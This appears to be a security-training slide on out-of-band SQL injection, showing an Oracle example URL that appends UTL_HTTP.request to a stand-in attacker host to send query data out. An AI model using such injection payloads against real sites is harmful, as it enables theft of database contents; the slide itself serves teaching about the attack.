

Out of Band SQLi
Executing SQL queries to exfiltrate data to an external service
site.com/products?id=1||UTL_HTTP.request('http://test.attacker.com/') – (Oracle)